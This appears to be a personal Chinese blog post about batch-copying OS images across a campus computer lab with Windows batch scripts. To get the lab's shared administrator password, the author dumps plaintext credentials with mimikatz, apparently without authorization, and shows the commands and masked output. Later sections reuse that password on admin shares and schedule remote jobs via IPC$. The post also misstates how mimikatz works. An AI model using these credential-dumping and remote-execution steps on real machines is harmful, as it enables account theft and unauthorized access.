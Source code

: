 ```yaml
---
title: 批处理机房文件批量传输
urlname: sk5uz1
date: '2015-10-17 00:00:00 +0800'
tags:
  - bat
categories: []
---
```


## 题记

计算机维护队将于次日在机房进行队员第一次培训会，培训会上的队员实操过程则需要使用到 win7 和 PE 镜像，工作人员（委员）不得不提前拷贝好镜像到每一台机子。于是便有了机房内通过网络批量传输文件的想法，实现之后可以大大减轻工作量，传输速度上瓶颈为 100Mbps（机房网络配置），与普通 USB3.0 的 U 盘传输速率相比确实低了一大截，在传输速率上似乎不占优势，因此我们将多台主机作为源点传输数据，并行传输数据，大大提升了时间效率。

![](https://cdn.yuque.com/yuque/0/2018/png/103147/1530282323573-b3ec65c0-c8fc-4dec-a92f-4da95966b6da.png#width=391)

<!-- more -->

### 机遇阶段

很凑巧，在同类型的机房中上实验课的时候一不小心执行了以下 powershell 指令：

```
Get-WmiObject -Class Win32_Share -Computername [computername]
# [computername] 代表主机名
```

意外的收获，默认共享居然没有被关闭，切安全策略~[偷笑]!

```
Name     Path                          Description
----     ----                          -----------
ADMIN$   C:\Windows                    远程管理
C$       C:\                           默认共享
D$       D:\                           默认共享
IPC$                                   远程 IPC
```

然而不出所料，我尝试通过 net use 空连接到旁边的机子时，被无情的拒之门外。要知道机房的电脑都是自带默认密码的。

```
net use z: \\[computername]\D$

为 '[computername]' 输入用户名:
发生系统错误 1223。
操作已被用户取消。
```

好吧，确实是个棘手的问题，因为不可能提前手动更改用户密码，因为机房的电脑自带还原程序（且不可恶意破坏），因此不得不废弃这个方案。于是编者剑走偏锋，掏出了一代神器[mimikatz_trunk](http://blog.gentilkiwi.com/presentations)，利用这个神器(原理是通过彩虹表破解 NTLM 加密口令)可以轻易获取 windows 系统账户的明文密码。

#### 下载链接

- [Binaires](https://github.com/gentilkiwi/mimikatz/releases/latest)

- [Sources](https://github.com/gentilkiwi/mimikatz)

使用说明详参[README.md](https://github.com/gentilkiwi/mimikatz/blob/master/README.md)，下载后或编译后程序目录如下：

![](https://cdn.yuque.com/yuque/0/2018/png/103147/1530282348556-f8855387-6730-4b14-ae05-6d72a8fecffa.png#width=657)

我们接着运行如下命令即可获得账户明文密码：

```
# 提升权限
mimikatz # privilege::debug
Privilege '20' OK

# 获取密码
mimikatz # sekurlsa::logonpasswords
```

获取密码后部分结果如下：

```
# *是编者自己打上的马赛克，命令执行后输出的全为明文，下同
Authentication Id : 0 ; 298372 (00000000:00048d84)
Session           : Interactive from 1
User Name         : ******
Domain            : ****
Logon Server      : (null)
Logon Time        : 2015-10-16 20:54:11
SID               : S-1-5-21-*******-********-*********-1004
        msv :
         [00000003] Primary
         * Username : ******@outlook.com
         * Domain   : MicrosoftAccount
         * Flags    : I00/N01/L00/S01
         * NTLM     : 198469ad0**********ed7ddfadd94
         * SHA1     : 1018ac5781ab260******8b9d57fae11d3313a86
        tspkg :
         * Username : ******@outlook.com
         * Domain   : MicrosoftAccount
         * Password : ********
        wdigest :
         * Username : ******@outlook.com
         * Domain   : MicrosoftAccount
         * Password : ******
        kerberos :
         * Username : ******@outlook.com
         * Domain   : MicrosoftAccount
         * Password : (null)
        ssp :
        credman :
         [00000000]
         * Username : (null)
         * Domain   : MicrosoftOffice16_Data:SSPI:lxstart@outlook.com
         * Password : ******
```

### 程序设计

既然获取到了一台机子的明文密码（账户名默认为 Administrator），由于机房采用统一镜像进行安装，因此默认账户信息完全一致，那么，就可以跳到批量传输的阶段了。那么我们来做一个详尽的规划：[篇幅有限，下面只提供关键代码]

#### 获取局域网内的主机名列表

原理：通过 net view 获取局域网主机列表后进行字符串过滤筛选，得到最终的主机名列表并写入 hosts.ini 文件。

```
(for /f "eol=。 skip=3 tokens=1 delims=, " %%i in ('net view') do (
	for /f "tokens=1 delims=\ " %%a in ('echo %%i ^| findstr ^\') do (
		echo %%a
	)
)) >> hosts.ini
```

#### 建立 net use 连接

```
# 将网络路径\\[hostname]\d$映射到z:\
net use z: \\[hostname]\d$ "******" /user:"administrator" /persistent:yes
```

在这之前需要先释放 z:原本可能存在 net use 连接：

```
net use z: /delete
```

我们就可以直接通过访问 z:来访问到目标机器的 D 盘根目录并进行文件操作了。

#### 复制文件

推荐使用 xcopy 命令，参数较简单易懂。

```
# 假设D:\已有win7.iso和PE.iso
xcopy D:\win7.iso Z:\
xcopy D:\PE.iso Z:\
```

#### 批量复制

由于我们已经获取到主机名列表，则我们可以串行批量复制文件。

```
for /f  %%a in (hosts.ini) do (
	echo 正在处理%%a
	call :copyer %%a
	:: 删除映射，释放连接
	net use z: /delete /y
)

# 定义函数
:copyer
net use z: \\%~1\d$ "******" /user:"administrator" /persistent:yes
xcopy D:\win7.iso Z:\
xcopy D:\PE.iso Z:\
```

#### 多主机并行处理

将程序放置到多台主机下运行，划分主机名列表片段到不同的主机，则可同时执行不同的文件批量复制的任务。

#### 最佳方案

这里涉及一种类似于细胞分裂的算法技术，在上面原有的基础上添加更能提高效率的解决方案。假设每人负责部署一台主机（用于批量复制文件），复制完 46 台机子需要(46-6)/6=7 轮，开始说表述的每台机子带宽有限（下面的流程图则以一台源主机为例解释），因此传输速度也难以提升。

更合理的解决方案就是利用所有空闲切有镜像的主机的网络带宽，思路图对比大致如下：

- 传统

![](https://cdn.yuque.com/yuque/0/2018/png/103147/1530282360282-26242597-1bcc-4ccf-a856-19fbd7ba6d09.png#width=686)

- 并行化

![](https://cdn.yuque.com/yuque/0/2018/png/103147/1530282373553-b57fcc30-f2fc-4d16-b7eb-20431a7cebad.png#width=692)

关键要解决的问题是需要给下一台机器发送指令，分配给每台主机最优的复制队列：通过 ipc$获取远程 at 和 time 权限

```
# 建立ipc$连接
net use \\[hostname]\ipc$ "password" /user:"username"

# 获取主机时间，假设为19:00
net time \\[hostname]

# at 设置命令，假设transformListFile.bat包含了计算下一台机子需要复制到的目标队列的算法
at \\[hostname] 19:01 transformListFile.bat
```
